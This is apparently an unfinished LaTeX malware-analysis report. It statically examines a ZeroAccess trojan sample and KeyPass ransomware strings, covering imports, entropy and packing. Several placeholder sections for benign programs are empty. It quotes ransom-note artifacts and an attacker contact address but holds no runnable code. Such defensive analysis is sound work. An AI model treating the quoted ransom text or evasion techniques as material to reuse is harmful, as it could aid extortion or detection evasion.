ZeroAccess is a Windows trojan that evolved into a large botnet. It is known for its use of rootkit techniques to hide itself, manipulate system drivers, and create peer-to-peer networks for command-and-control (C2). 
ZeroAccess was often used for click fraud and Bitcoin mining \cite{symantec-zeroaccess}.

\subsubsection{Process}
This sample was obtained from theZoo repository \cite{the-zoo} \cite{the-zoo-zeroaccess}. The downloaded file’s SHA256 hash was compared against the repository-provided value to ensure the sample’s integrity. After verification, Detect It Easy (DIE) \cite{detect-it-easy} was used to analyze static properties such as compiler information, entropy, embedded strings, imports, and sections. The findings are outlined below.

\subsubsection{SHA Hash Confirmation}
\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{ZeroAccess/zero-sha-conf.png}
  \caption{Confirmation that the SHA 256 hash of ZeroAccess matches the expected value.}
  \label{fig:zeroaccess-sha}
\end{figure}

\subsubsection{Embedded Strings}
\texttt{GlobalLock}, \texttt{LoadLibraryA}, and \texttt{GetSystemDirectoryW} functions suggest that is performs some type of memory management and dynamic library loading. Malware commonly abuses \texttt{LoadLibraryA} to bring malicious DLLs into memory at runtime, bypassing static analysis. Coupled with \texttt{GlobalLock}, which locks a global memory object, this suggests the malware is controlling memory handles directly. The reference to \texttt{GetSystemDirectoryW} shows that it may also copy or hide files inside the Windows system directory to blend in. 

\texttt{GetCurrentDirectoryA} and \texttt{FindNextFileA} are file system calls used to navigate directories and enumerate files. ZeroAccess may use these to scan the file system for targets or to check for its own components.

\texttt{SendMessageA}, \texttt{GetDlgItem}, and \texttt{WaitForInputIdle} are user interface functions. These suggest that ZeroAccess interacts with Windows GUI elements. Malware can use these APIs to send hidden messages to other processes, manipulate windows, or remain idle until the system is free, all of which reduce the chance of detection by users.

\texttt{CM\_Get\_DevNode\_Status}, \texttt{SetupDiGetDeviceRegistryPropertyW}, 
and \texttt{CMP\_WaitNoPendingInstallEvents} these are setup and configuration 
manager functions. They are not typically used by ordinary applications but are used for driver and device management. Their presence suggests that ZeroAccess may be querying or altering device status, monitoring for system configuration changes, or waiting for Windows installation events to complete before injecting itself. This ties into its rootkit functionality, as ZeroAccess was known for modifying low-level components and hiding inside the system at the driver layer.

In combination, these strings show that ZeroAccess manipulates the file system, memory, and registry while also interfering with system setup and driver level operations. This matches its known behavior as a trojan that hides deep inside Windows to avoid detection.  

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{ZeroAccess/zero-strings-1.png}
  \caption{Embedded strings in the ZeroAccess binary.}
  \label{fig:zeroaccess-strings-1}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{ZeroAccess/zero-strings-2.png}
  \caption{Embedded strings in the ZeroAccess binary.}
  \label{fig:zeroaccess-strings-2}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{ZeroAccess/zero-strings-3.png}
  \caption{Embedded strings in the ZeroAccess binary.}
  \label{fig:zeroaccess-strings-3}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{ZeroAccess/zero-strings-4.png}
  \caption{Embedded strings in the ZeroAccess binary.}
  \label{fig:zeroaccess-strings-4}
\end{figure}


\subsubsection{Entropy}
The average entropy value was 7.6, which is significantly higher than the normal range of uncompressed executables (5.0–6.0). The analysis reported that 95\% of 
the file was packed, with sections 0, 1, and 3 compressed, while the PE header and 
section 4 were not packed. This suggests that the malware is deliberately using packing or encryption to evade static analysis and hide its code.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{ZeroAccess/zero-entropy.png}
  \caption{Entropy graph of the ZeroAccess binary.}
  \label{fig:zeroaccess-entropy}
\end{figure}

\subsubsection{Compiler Information}
The binary identified itself as a Windows 95 PE32 executable. This indicates that the malware is relatively old, targeting legacy versions of Windows. The use of 
the PE32 format is consistent with Windows malware of its era.  

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{ZeroAccess/zero-compiler.png}
  \caption{Compiler information for the ZeroAccess binary.}
  \label{fig:zeroaccess-compiler}
\end{figure}

\subsubsection{Imports and Sections}
The imports table referenced \texttt{OLEAUT32.dll}, \texttt{KERNEL32.dll}, \texttt{SETUPAPI.dll}, and \texttt{USER32.dll}. While these 
are common in Windows executables, the specific functions used (such as \texttt{VirtualAlloc} and Setup API calls) point to process injection, persistence, and registry manipulation.  

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{ZeroAccess/zero-imports.png}
  \caption{Imports from the ZeroAccess binary.}
  \label{fig:zeroaccess-imports}
\end{figure}

\subsection{gVim}
\subsubsection{Overview}
\subsubsection{Compiler Information}
\subsubsection{Entropy}
\subsubsection{Imports and Sections}
\subsubsection{Embedded Strings}

\subsection{Cppcheck}
\subsubsection{Overview}
\subsubsection{Compiler Information}
\subsubsection{Entropy}
\subsubsection{Imports and Sections}
\subsubsection{Embedded Strings}

\subsection{GIMP}
\subsubsection{Overview}
\subsubsection{Compiler Information}
\subsubsection{Entropy}
\subsubsection{Imports and Sections}
\subsubsection{Embedded Strings}

\subsection{SWI Prolog}
\subsubsection{Overview}
\subsubsection{Compiler Information}
\subsubsection{Entropy}
\subsubsection{Imports and Sections}
\subsubsection{Embedded Strings}

\subsection{balenaEtcher}
\subsubsection{Overview}
\subsubsection{Compiler Information}
\subsubsection{Entropy}
\subsubsection{Imports and Sections}
\subsubsection{Embedded Strings}

\section{Task 2}
\subsection{KeyPass}

\subsubsection{Summary of Embedded Strings}
\begin{table}[H]
  \centering
  \begin{tabular}{|p{6cm}|p{2cm}|p{5cm}|}
    \hline
    \textbf{String / Artifact} & \textbf{What it Represents} & \textbf{Interpretation for KeyPass} \\
    \hline
    \texttt{RijndaelManaged}, \texttt{Aes192}, \texttt{Aes256}, \texttt{TripleDes168} & Cryptographic functions & Confirms use of strong encryption algorithms to lock victim files. \\
    \hline
    \texttt{RegOpenKeyTransactedW} & Windows registry function & Possibly used for persistence by modifying registry keys. \\
    \hline
    \texttt{ActivateActCtx}, \texttt{DeactivateActCtx}, \texttt{QueryActCtxW} & Context isolation APIs & Possibly used to bypass normal application contexts. \\
    \hline
    \texttt{DRIVEUPLOADCOMPLETED...}, \texttt{DRIVE-SCAN-NOT-COMPLETED...} & File scanning/upload logs & Suggests staged file operations, possibly linked to encryption queueing. \\
    \hline
    \texttt{!!!DECRYPTION\_KEYPASS\_INFO!!!.txt} & Ransom note filename & Explicit ransom note, typical of ransomware. \\
    \hline
    \texttt{"All your files...encrypted...Price for decryption \$300..."} & Ransom text & Confirms demand for payment and encryption of files. \\
    \hline
    \texttt{BM-2cUMY51Wf...@bitmessage.ch} & Contact address & Demonstrates use of anonymous communication channels. \\
    \hline
  \end{tabular}
  \caption{Summary of embedded strings in the KeyPass binary.}
  \label{tab:keypass-strings}
\end{table}

\subsubsection{Summary of Compiler Information}
\begin{table}[H]
  \centering
  \begin{tabular}{|p{2cm}|p{2cm}|p{6cm}|}
    \hline
    \textbf{Property} & \textbf{Value} & \textbf{Interpretation} \\
    \hline
    Operating System & Windows XP & Legacy environment still used in 2018, making it an easy target. \\
    \hline
    Compiler & Visual C/C++ (Visual Studio 2013) & Toolchain suitable for complex malware. \\
    \hline
    Language & C/C++ & Offers access to Windows APIs and crypto libraries. \\
    \hline
    Average Entropy & 6.59 & Above normal range of uncompressed executables suggesting some sections were packed which is confirmed by the finding that 82\% of the binary is packed.\\
    \hline
  \end{tabular}
  \caption{Compiler information for the KeyPass binary.}
  \label{tab:keypass-compiler}
\end{table}

\subsubsection{Sections and Imports}
\begin{table}[H]
  \centering
  \begin{tabular}{|p{3cm}|p{6cm}|}
    \hline
    \textbf{Import} & \textbf{Interpretation} \\
    \hline
    \texttt{KERNEL32.dll} & Core process such as file and memory management functions. \\
    \hline
    \texttt{USER32.dll}, \texttt{UxTheme.dll} & UI manipulation used to display ransom notes. \\
    \hline
    \texttt{ADVAPI32.dll} & Access to registry functions for persistence. \\
    \hline
    \texttt{WS2\_32.dll}, \texttt{MPR.dll} & Network communication for possible reporting or C2. \\
    \hline
    \texttt{GDI32.dll}, \texttt{GDIPLUS.dll}, \texttt{MSIMG32.dll} & Graphics rendering for potentially displaying ransom screens. \\
    \hline
